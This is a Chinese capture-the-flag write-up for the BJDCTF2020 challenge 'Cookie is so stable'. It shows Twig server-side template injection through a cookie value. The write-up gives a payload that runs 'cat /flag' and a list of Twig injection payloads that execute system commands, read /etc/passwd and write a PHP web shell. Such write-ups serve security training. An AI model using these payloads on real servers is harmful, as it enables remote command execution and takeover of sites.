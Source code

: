 # [BJDCTF2020]Cookie is so stable

## 知识点

`SSTI`

`twig`

## 解题

![](./img/[BJDCTF2020]Cookieissostable.png)

和之前一题`SSTI`注入比较相似，但是这题过滤了`+`

测试`cookie`中的`user={{3*3}}`

返回`Hello 9`

说明存在模板注入

确定服务端的语言为`php`之后，范围就很小了，补充下各种语言发生`ssti注入`的模板，如下：

```c
python: jinja2 mako tornado django
php:smarty twig Blade
java:jade velocity jsp
```

 7、确定此处产生`ssti注入`的模板可以为`smarty`、`twig`等，那就一个一个尝试，这里就直接使用`twig`模板的注入方式进行注入了，`payload`：`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`即可成功注入

![](./img/[BJDCTF2020]Cookieissostable-2.png)

`twig`常用的注入`payload`：

```c
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```

[参考](https://www.cnblogs.com/upfine/p/16534494.html)